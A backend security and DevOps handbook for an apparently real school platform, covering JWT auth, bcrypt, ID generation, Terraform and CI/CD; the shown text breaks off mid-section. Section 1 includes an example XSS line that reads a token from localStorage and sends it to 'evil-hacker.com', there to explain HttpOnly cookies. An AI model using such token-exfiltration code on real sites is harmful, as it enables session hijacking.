# Master System Architecture, Security & DevOps Engineering Guide
### *The Complete Production Engineering Handbook for Paatam Backend*

---

> [!NOTE]
> **Who is this guide for?**
> This handbook is written for backend engineers, system architects, and DevOps engineers who want to master how modern, highly secure, scalable, multi-tenant cloud applications are designed, deployed, and operated on AWS. Every concept is broken down from absolute first principles using clear, conversational English, accompanied by real production code, architecture diagrams, and hands-on scenarios.

---

## Table of Contents
1. [Authentication & Authorization (JWT, Refresh Tokens & Cookie Security)](#1-authentication--authorization-jwt-refresh-tokens--cookie-security)
2. [Cryptographic Password Hashing & Salting (Bcrypt Internals)](#2-cryptographic-password-hashing--salting-bcrypt-internals)
3. [Distributed Unique ID Generation (Sonyflake / Snowflake Architecture)](#3-distributed-unique-id-generation-sonyflake--snowflake-architecture)
4. [One-Time Password (OTP) Generation, Delivery & Verification Lifecycle](#4-one-time-password-otp-generation-delivery--verification-lifecycle)
5. [Infrastructure as Code (Terraform Masterclass & HCL Fundamentals)](#5-infrastructure-as-code-terraform-masterclass--hcl-fundamentals)
6. [Testing Strategies & Ephemeral Database Environments](#6-testing-strategies--ephemeral-database-environments)
7. [Automated CI/CD Pipeline Architecture (GitHub Actions)](#7-automated-cicd-pipeline-architecture-github-actions)
   - [7.1 The ':latest' Tag Anti-Pattern: Failure Modes & Immutable Tags](#71-the-latest-tag-anti-pattern-failure-modes--why-immutable-tags-are-mandatory-in-production)
8. [AWS High-Level Design (HLD) & Infrastructure Deep Dive](#8-aws-high-level-design-hld--infrastructure-deep-dive)
   - [8.1 Virtual Private Cloud (VPC), Subnets & Route Tables](#81-virtual-private-cloud-vpc-subnets--route-tables)
     - [8.1.1 VPC Endpoints (Gateway vs Interface Endpoints / PrivateLink)](#811-vpc-endpoints-deep-dive-gateway-endpoints-vs-interface-endpoints)
     - [8.1.2 NAT Gateway vs NAT Instance Costs & Transfer Fees](#812-nat-gateway-vs-nat-instance-costs--transfer-fees-calculation)
   - [8.2 Web Application Firewall (WAF) & DDoS Protection](#82-web-application-firewall-waf--ddos-protection)
   - [8.3 Application Load Balancers (ALB) vs Elastic Load Balancing (ELB)](#83-application-load-balancers-alb-vs-elastic-load-balancing-elb)
     - [8.3.1 Amazon Route 53 (DNS Architecture, Record Types & Routing Policies)](#831-amazon-route-53-dns-architecture-record-types--routing-policies)
   - [8.4 AWS ECS Fargate & Elastic Container Registry (ECR)](#84-aws-ecs-fargate--elastic-container-registry-ecr)
     - [8.4.1 ECS IAM Roles In-Depth: Task Execution Role vs Task Role](#841-ecs-iam-roles-in-depth-task-execution-role-vs-task-role)
     - [8.4.2 ECS Service Architecture, Auto-Scaling & Metrics](#842-ecs-service-architecture-auto-scaling--metrics)
     - [8.4.3 Security Groups vs IAM Roles: The Fundamental Difference](#843-security-groups-vs-iam-roles-the-fundamental-difference)
   - [8.5 Amazon S3 Security & AWS SigV4 Pre-signed URLs](#85-amazon-s3-security--aws-sigv4-pre-signed-urls)
   - [8.6 Asynchronous Serverless Queues (SQS) & Lambda Execution Workers](#86-asynchronous-serverless-queues-sqs--lambda-execution-workers)
   - [8.7 Database Architecture: RDS PostgreSQL, RDS Proxy & DynamoDB](#87-database-architecture-rds-postgresql-rds-proxy--dynamodb)
     - [8.7.1 AWS Secrets Manager vs SSM Parameter Store & KMS Envelope Encryption](#871-aws-secrets-manager-vs-aws-ssm-parameter-store--aws-kms-envelope-encryption)
   - [8.8 CloudWatch, AWS X-Ray, EventBridge & Distributed Observability](#88-cloudwatch-aws-x-ray-eventbridge--distributed-observability)
9. [End-to-End Request Lifecycle: The Complete Front-to-Back Journey](#9-end-to-end-request-lifecycle-the-complete-front-to-back-journey)
10. [Real-World Troubleshooting & RCA: Debugging Async AI Pipelines](#10-real-world-troubleshooting--rca-debugging-async-ai-pipelines)
11. [Hands-On Practice Labs & DevOps Mastery Exercises](#11-hands-on-practice-labs--devops-mastery-exercises)

---

# 1. Authentication & Authorization (JWT, Refresh Tokens & Cookie Security)

In Paatam, user identity and route authorization are governed by a **Dual-Token System**: a short-lived **JWT Access Token** (10 to 15 minutes) and a long-lived **Opaque Refresh Token** (30 days).

```mermaid
sequenceDiagram
    autonumber
    actor User as User / Browser
    participant FE as Frontend Client
    participant Auth as Express Auth API
    participant DB as PostgreSQL DB
    participant Protected as Protected Endpoint

    Note over User,Auth: Initial Login Flow
    User->>FE: Enters Mobile/Email + Password / OTP
    FE->>Auth: POST /api/auth/login
    Auth->>DB: Verify credentials & salt hash
    Auth->>Auth: Generate 15-min JWT (Access Token)
    Auth->>DB: Store 40-char random hex (Refresh Token) with 30-day expiry
    Auth-->>FE: 200 OK (Body: accessToken, Set-Cookie: refreshToken; HttpOnly; Secure; SameSite=Strict)
    FE->>FE: Store accessToken in Memory / LocalStorage

    Note over FE,Protected: Authenticated Requests
    FE->>Protected: GET /api/submissions (Header: Authorization: Bearer <accessToken>)
    Protected-->>FE: 200 OK (Returns Data)

    Note over FE,Auth: Access Token Expires (After 15 minutes)
    FE->>Protected: GET /api/submissions (Header: Authorization: Bearer <accessToken>)
    Protected-->>FE: 401 Unauthorized (Token Expired)
    FE->>Auth: POST /api/auth/refresh (Cookie: refreshToken automatically attached by browser)
    Auth->>DB: Query refreshToken & check expiry
    Auth->>Auth: Sign brand-new 15-minute Access Token
    Auth-->>FE: 200 OK { accessToken: "new_jwt_here" }
    FE->>Protected: Re-issue original request with new token
    Protected-->>FE: 200 OK (Seamless experience for user)
```

---

### What Exact Details are Stored in the JWT Access Token for Each Role?

A JSON Web Token (JWT) is composed of three base64url-encoded parts separated by dots (`.`):
$$\text{Header} \,.\, \text{Payload} \,.\, \text{Signature}$$

In Paatam's [`AuthService.generateAccessToken`](file:///home/phani/My/paatam_application/paatam_backend/src/services/auth.service.ts#L14), the payload contains specific claims tailored to multi-tenant school hierarchies:

```typescript
jwt.sign(
  {
    userId: userId.toString(),        // Unique BigInt ID as string
    role: userType,                   // CORPORATE_ADMIN, BRANCH_ADMIN, TEACHER, STUDENT
    corporateId: corporateId?.toString(), // Multi-tenant root corporate ID
    branchId: branchId?.toString(),   // Present for branch-scoped users
  },
  JWT_SECRET,
  { expiresIn: '15m' }
);
```

#### Claims Stored per Role:

| Role | Claims in JWT Payload | What These Claims Enable in Middleware |
| :--- | :--- | :--- |
| **Corporate Admin** | `userId`, `role: "CORPORATE_ADMIN"`, `corporateId` | Unrestricted read/write access to all branches, billing, school networks, and faculty under that corporate umbrella. |
| **Branch Admin** (Dean / Principal) | `userId`, `role: "BRANCH_ADMIN"`, `corporateId`, `branchId` | Access restricted strictly to the designated branch. Prevented from querying other schools in the corporate chain. |
| **Teacher** | `userId`, `role: "TEACHER"`, `corporateId`, `branchId` | Allows managing classes, authoring exams, viewing student answer sheets, and grading submissions for assigned sections. |
| **Student** | `userId`, `role: "STUDENT"`, `corporateId`, `branchId`, `sectionId` | Read-only access to assignments, scorecards, personal OCR submissions, and AI socratic hints. |

> [!IMPORTANT]
> **Why do we NOT put passwords, OTPs, or sensitive profile details inside the JWT?**
> A JWT is **signed**, NOT **encrypted**. Anyone who intercepts a JWT can paste it into `jwt.io` and read the JSON payload instantly. We only store public identifiers (`userId`, `role`, `corporateId`) that our server middleware needs to make authorization decisions without querying the database on every single micro-request.

---

### Why Can a Hacker Steal an Access Token, but CANNOT Steal an `HttpOnly` Cookie?

Let's understand this fundamental browser security distinction:



1. **LocalStorage / SessionStorage**:
   - Any JavaScript running on the page can execute:
     ```javascript
     const stolenToken = localStorage.getItem('accessToken');
     fetch('https://evil-hacker.com/steal?token=' + stolenToken);
     ```
   - If a third-party npm library has malware, or an attacker injects a malicious script via user input (XSS), the attacker extracts the token immediately.

2. **HttpOnly Cookies**:
   - When the backend sets:
     ```typescript
     res.cookie('refreshToken', refreshToken, {
       httpOnly: true, // Browser forbids JavaScript from reading document.cookie
       secure: true,   // Only sent over encrypted HTTPS connections
       sameSite: 'strict', // Never sent with cross-site requests (protects from CSRF)
       maxAge: 30 * 24 * 60 * 60 * 1000 // 30 days
     });
     ```
   - Even if the attacker executes arbitrary JavaScript on your page, `document.cookie` will **never reveal** the `refreshToken`.
   - The browser's internal C++ networking engine manages the cookie and attaches it automatically *only* to legitimate HTTP requests going to `paatam.in`.

---

### What Happens When the 30-Day Refresh Token Expires?

After 30 days, the user's refresh token expires in the database.

1. **Backend Handling**:
   - The frontend's token refresh request hits `POST /api/auth/refresh`.
   - In [`AuthService.refreshAccessToken`](file:///home/phani/My/paatam_application/paatam_backend/src/services/auth.service.ts#L65):
     ```typescript
     if (new Date() > storedToken.expires_at) {
       await prisma.refreshToken.delete({ where: { id: storedToken.id } });
       return null; // Token is expired and purged
     }
     ```
   - The controller sends:
     ```json
     HTTP/1.1 401 Unauthorized
     {
       "status": "error",
       "code": "REFRESH_TOKEN_EXPIRED",
       "message": "Your session has expired. Please log in again."
     }
     ```

2. **Frontend Handling (Best Practice)**:
   - The frontend Axios interceptor intercepts the `401 Unauthorized` with code `REFRESH_TOKEN_EXPIRED`.
   - It purges `accessToken` from memory:
     ```typescript
     apiClient.interceptors.response.use(
       (response) => response,
       async (error) => {
         if (error.response?.status === 401 && error.config.url.includes('/auth/refresh')) {
           // Both access and refresh tokens are dead
           localStorage.removeItem('accessToken');
           window.location.href = `/login?redirect=${encodeURIComponent(window.location.pathname)}`;
           return Promise.reject(error);
         }
         // Handle access token refresh...
       }
     );
     ```
   - The user is redirected to `/login`, enters their credentials or OTP, and receives fresh tokens.

---

# 2. Cryptographic Password Hashing & Salting (Bcrypt Internals)

Many developers believe hashing is encryption. **It is not.** Encryption is a two-way street (you can decrypt with a key). Hashing is a **one-way cryptographic trapdoor function**: you can easily turn text into a hash, but mathematically impossible to reverse the hash back into text.



### The Fatal Flaw of Plain Hashing (SHA-256 / MD5)

If you use plain `SHA-256("AdminPass123")`:
- Every time you hash `"AdminPass123"`, you get the exact same 64-character hex string.
- Attackers compile **Rainbow Tables** (precomputed databases containing trillions of hashes for every known dictionary word and combination).
- When a database leaks, attackers perform an instantaneous lookup in their rainbow table to reveal passwords.
- Furthermore, modern GPUs calculate over **10 billion SHA-256 hashes per second**. A 6-character password can be cracked in under 3 seconds!

---

### What is a "Salt" and Why is it Random Every Time?

A **Salt** is a string of 16 cryptographically random bytes generated uniquely for every single password change.
Even if 1,000 teachers in Paatam choose the exact same password `"Welcome123!"`:
- Teacher 1's password is mixed with Salt A $\rightarrow$ Hash A
- Teacher 2's password is mixed with Salt B $\rightarrow$ Hash B
- Teacher 3's password is mixed with Salt C $\rightarrow$ Hash C

Rainbow tables are rendered **100% useless** because the attacker would have to compute a brand-new multi-terabyte rainbow table for every single salt!

---

### How Does Bcrypt Verification Work Without Storing a Secret Key?

When you call `bcrypt.hash("TeacherPass123!", 10)`, the resulting string looks like this:

$$\underbrace{\$2b\$}_{\text{Algorithm}} \underbrace{10\$}_{\text{Cost Factor}} \underbrace{\text{N9qo8uLOickgx2ZMRZoMye}}_{\text{22-char Salt}} \underbrace{\text{IjZAgcfl7p92ldGxad68LJZdL17lhWy}}_{\text{31-char Hash Output}}$$



#### Step-by-Step Verification (`bcrypt.compare`):
1. The user enters `"TeacherPass123!"` on the login screen.
2. The backend fetches the stored hash from PostgreSQL:
   `$2b$10$N9qo8uLOickgx2ZMRZoMyeIjZAgcfl7p92ldGxad68LJZdL17lhWy`
3. Notice that the stored hash **already contains the salt and cost factor** in plain sight!
4. `bcrypt.compare` extracts:
   - Cost Factor = `10`
   - Salt = `N9qo8uLOickgx2ZMRZoMye`
5. `bcrypt.compare` hashes the newly entered password `"TeacherPass123!"` using that exact extracted salt and cost factor.
6. It then performs a **constant-time byte comparison** (`crypto.timingSafeEqual`) between the new hash and the stored hash.
7. If the bytes match, the password is correct! No separate key was ever needed.

---

# 3. Distributed Unique ID Generation (Sonyflake / Snowflake Architecture)

In Paatam, every entity—Submissions, Assignments, Users, Notifications—uses a 64-bit integer ID generated by [`idGenerator.nextId()`](file:///home/phani/My/paatam_application/paatam_backend/src/utils/idGenerator.ts).



### Why NOT Database Auto-Increment (`SERIAL` / `BIGSERIAL`)?
1. **Single Point of Failure**: All database writes must hit one master table sequence. You cannot shard or write to multiple databases simultaneously.
2. **Business Leakage**: If your invoice ID is `1001` today and `1050` tomorrow, competitors know you only processed 49 orders.
3. **Network Round-Trip**: The backend cannot know the ID of an object before doing an `INSERT` statement into PostgreSQL.

### Why NOT UUIDv4?
1. **Double Storage**: A UUID is 128 bits (36 characters as a string: `550e8400-e29b-41d4-a716-446655440000`). It takes double the storage of an 8-byte `BIGINT`.
2. **Catastrophic B-Tree Fragmentation**: UUIDv4 is completely random. When PostgreSQL inserts millions of rows into a B-Tree index, random UUIDs force PostgreSQL to constantly split index pages on disk, degrading write throughput by up to **80%**!

---

### How Paatam Solves Machine Uniqueness in AWS ECS

In a distributed cloud setup, you may have 10 ECS containers running in different availability zones, all generating IDs simultaneously. If two containers generate an ID at the exact same millisecond, how do we guarantee zero collisions?

Paatam solves this elegantly in [`src/utils/idGenerator.ts`](file:///home/phani/My/paatam_application/paatam_backend/src/utils/idGenerator.ts#L8):
```typescript
function getMachineIdFromIp(): number {
  const interfaces = os.networkInterfaces();
  for (const name of Object.keys(interfaces)) {
    const iface = interfaces[name];
    if (!iface) continue;

    for (const alias of iface) {
      if (alias.family === 'IPv4' && !alias.internal) {
        // e.g. Container IP: '10.0.1.45' -> [10, 0, 1, 45]
        const parts = alias.address.split('.').map(Number);
        if (parts.length === 4) {
          // Take lower 16 bits: (parts[2] << 8) + parts[3]
          // (1 << 8) + 45 = 256 + 45 = 301
          return (parts[2] << 8) + parts[3];
        }
      }
    }
  }
  return Math.floor(Math.random() * 65535);
}
```

- In AWS VPC, **no two ECS tasks can ever share the same private IP address**.
- By deriving the 16-bit `machineId` directly from the container's private IPv4 octets `parts[2]` and `parts[3]`, every container is mathematically guaranteed a distinct machine ID without requiring an external coordinator like ZooKeeper!

---

# 4. One-Time Password (OTP) Generation, Delivery & Verification Lifecycle

Paatam supports passwordless and two-factor authentication via secure OTPs.



### Key Security Guardrails Implemented:
1. **Single-Use Consumption**: Once an OTP is verified, it is immediately deleted from the database. It can never be replayed.
2. **Automatic Expiration**: Enforced by `expires_at: { gt: new Date() }`. After 5 minutes, the database rejects the code.
3. **Row Bloat Prevention**: Prior to inserting a new OTP, all existing records for that email or mobile number are purged.
4. **Environment Isolation**: In production, the raw OTP is **never returned in the JSON response**; it is dispatched purely through AWS SES and Twilio.

---

# 5. Infrastructure as Code (Terraform Masterclass & HCL Fundamentals)

Terraform allows you to define your entire AWS data center using declarative code. If a disaster wipes out an entire AWS region, running `terraform apply` rebuilds every VPC, database, load balancer, and queue in minutes.

### Directory Structure of `terraform/`:

```
terraform/
├── environments/
│   ├── dev.tfvars           # Development environment variables (db sizes, subnets)
│   └── prod.tfvars          # Production environment variables (multi-AZ, larger CPU)
├── .terraform/              # Hidden cache directory containing downloaded AWS provider plugins
├── .terraform.lock.hcl      # Cryptographic checksum lockfile for provider versions
├── terraform.tfstate        # The REAL-TIME mapping between code and AWS resource IDs
├── terraform.tfstate.backup # Automatic backup of the previous state
├── providers.tf             # Declares AWS provider and minimum version constraints
├── variables.tf             # Input variables (CIDR blocks, region, environment name)
├── outputs.tf               # Exports ALB DNS name, ECR URLs, RDS endpoints
├── main.tf                  # Base VPC, Subnets, Internet Gateway, NAT Gateway
├── alb.tf                   # Application Load Balancer, Listeners, Target Groups
├── ecs.tf                   # ECS Cluster, Fargate Task Definitions, IAM roles
├── ecr.tf                   # Elastic Container Registry repository definition
├── lambdas.tf               # 5 Serverless Worker Lambdas, bundle.zip upload, SQS triggers
├── rds.tf                   # PostgreSQL DB instance, Subnet groups, Security groups
├── s3.tf                    # Uploads bucket, CORS, Public Access Block
├── sqs.tf                   # 4 Async SQS Queues and 4 Dead-Letter Queues (DLQs)
├── cloudwatch.tf            # CloudWatch Log Groups, EventBridge cron rules, DLQ Alarms
├── secrets.tf               # AWS Secrets Manager integration for DB & AI keys
└── waf.tf                   # Web Application Firewall rules
```

---

### Basics of HCL (HashiCorp Configuration Language)

HCL is structured around **Blocks**, **Arguments**, and **Expressions**:

```hcl
# 1. Resource Block: Creates and manages a real infrastructure object in AWS
resource "aws_s3_bucket" "main" {
  bucket        = "paatam-uploads-${var.environment}" # String interpolation
  force_destroy = var.environment == "dev" ? true : false # Ternary conditional
}

# 2. Data Source Block: Queries an existing resource that was created outside this file
data "aws_availability_zones" "available" {
  state = "available"
}

# 3. Variable Block: Declares a configurable parameter
variable "environment" {
  type        = string
  description = "Target deployment environment"
  default     = "dev"
}

# 4. Local Block: Reusable expressions and computations
locals {
  common_tags = {
    Project     = "Paatam"
    Environment = var.environment
    ManagedBy   = "Terraform"
  }
}
```

---

### Terraform State Management: S3 + DynamoDB Locking

What happens when two developers run `terraform apply` at the exact same second?
Without state locking, both processes will attempt to modify the state file concurrently, corrupting the JSON file and potentially creating duplicate resources or deleting active infrastructure.



#### The Production Backend Configuration:
```hcl
terraform {
  backend "s3" {
    bucket         = "paatam-terraform-state-prod"
    key            = "environments/prod/terraform.tfstate"
    region         = "ap-south-2"
    encrypt        = true
    dynamodb_table = "paatam-terraform-locks"
  }
}
```

---

### Essential Terraform CLI Commands Reference

| Command | What it Does in Plain English |
| :--- | :--- |
| `terraform init` | Downloads provider plugins (AWS) and initializes the backend state storage. |
| `terraform validate` | Checks your HCL code for syntax errors and internal type consistency. |
| `terraform plan -var-file="environments/dev.tfvars"` | Compares your code against the real AWS state and prints an exact blueprint of what will be added, changed, or destroyed. |
| `terraform apply -var-file="environments/dev.tfvars"` | Executes the blueprint and creates the actual resources in AWS. |
| `terraform state list` | Lists all AWS resources currently tracked in the state file. |
| `terraform state show <resource_name>` | Displays all metadata (ARN, IP address, subnet ID) for a specific tracked resource. |
| `terraform destroy` | Tears down every single AWS resource managed by this configuration. |

---

# 6. Testing Strategies & Ephemeral Database Environments

Paatam employs a multi-tiered automated testing suite powered by **Vitest**:



### How Database Scenarios are Handled During Test Runs

1. **Local Developer Machines**:
   - If Docker is running, Vitest leverages **Testcontainers** (`@testcontainers/postgresql`) to spin up a completely isolated, temporary PostgreSQL container on a random port.
   - If Docker is absent, it connects to a local developer PostgreSQL instance (`paatam_dev`).

2. **Automated CI/CD (GitHub Actions)**:
   - In `.github/workflows/ci.yml`, GitHub starts an official **pgvector PostgreSQL 16 service container**:
     ```yaml
     services:
       postgres:
         image: pgvector/pgvector:pg16
         env:
           POSTGRES_USER: admin
           POSTGRES_PASSWORD: adminpassword
           POSTGRES_DB: paatam_dev
         ports:
           - 5432:5432
     ```
   - Before any tests execute, the pipeline runs:
     ```bash
     npx prisma migrate deploy
     ```
   - This builds the entire database schema from scratch, including all tables, foreign keys, indexes, and vector extensions.
   - Tests execute sequentially using distinct Sonyflake IDs, ensuring zero cross-test data pollution.

---

# 7. Automated CI/CD Pipeline Architecture (GitHub Actions)

Paatam utilizes two tightly integrated workflows: **Validation (`ci.yml`)** and **Deployment (`deploy.yml`)**.

```mermaid
flowchart TD
    A["Developer Runs: git push origin main"] --> B["GitHub Actions Triggered"]
    
    subgraph CI Validation Pipeline (ci.yml)
        B --> C["1. Setup Node.js & npm ci"]
        C --> D["2. TypeScript Compilation Check (tsc --noEmit)"]
        D --> E["3. Terraform Validate (terraform validate)"]
        E --> F["4. Build & Verify Documentation"]
        F --> G["5. Spin up PostgreSQL Service Container"]
        G --> H["6. Run Prisma Migrations (prisma migrate deploy)"]
        H --> I["7. Execute Vitest Test Suite (259 Tests)"]
    end

    subgraph CD Deployment Pipeline (deploy.yml)
        I -->|"Tests Pass 100%"| J["8. Login to Amazon ECR"]
        J --> K["9. Build Production Docker Image"]
        K --> L["10. Tag & Push to ECR (:latest)"]
        L --> M["11. aws ecs update-service --force-new-deployment"]
        M --> N["12. Fargate Rolls Out Zero-Downtime Containers"]
    end

    I -->|"Any Test Fails"| X["❌ Pipeline Halts Immediately!<br/>Docker is NEVER built.<br/>ECS is NEVER touched."]

    style X fill:#ff9999,stroke:#ff0000
    style N fill:#99ff99,stroke:#00aa00
```

### Why Do We Run Tests Before Building Docker Images?
This is known as the **Fail-Fast Principle**:
- Compiling TypeScript and running 259 unit and integration tests takes **~15 seconds**.
- Building a Docker container, compressing multi-gigabyte layers, and pushing to Amazon ECR takes **2 to 4 minutes**.
- By putting testing upfront, faulty code is caught within seconds without burning AWS ECR bandwidth, CloudWatch logs, or deployment compute time.

---

### 7.1 The `:latest` Tag Anti-Pattern: Failure Modes & Why Immutable Tags are Mandatory in Production

In beginner tutorials, deploying with `docker build -t app:latest` is common. **In enterprise production, deploying with `:latest` is a critical anti-pattern that causes severe outages.**



#### Why `:latest` Causes Catastrophic Failures:
1. **Split-Brain Container Deployments**:
   - If ECS auto-scales or a container crashes and restarts, it pulls whatever image is currently tagged `:latest` in ECR.
   - If another engineer just pushed a broken build to `:latest`, new containers boot with the broken code while existing containers run the old code!
2. **Impossible Instant Rollbacks**:
   - When a production bug appears, you need to roll back in under 30 seconds.
   - If everything is tagged `:latest`, the previous working image is untagged (`<none>`). You cannot simply tell ECS to *"revert to the previous version"* because both versions were named `:latest`!
3. **Layer Cache Poisoning**:
   - Docker caching assumes an image tag hasn't changed. Container runtimes might use a cached local layer for `:latest`, causing non-deterministic builds where code updates fail to reflect in running containers.

#### The Production Standard: Immutable Image Tags
In production, every image is tagged with its **Git Commit SHA** or a **Semantic Version**:
```yaml
# In GitHub Actions:
- name: Build, tag, and push image to Amazon ECR
  env:
    ECR_REGISTRY: ${{ steps.login-ecr.outputs.registry }}
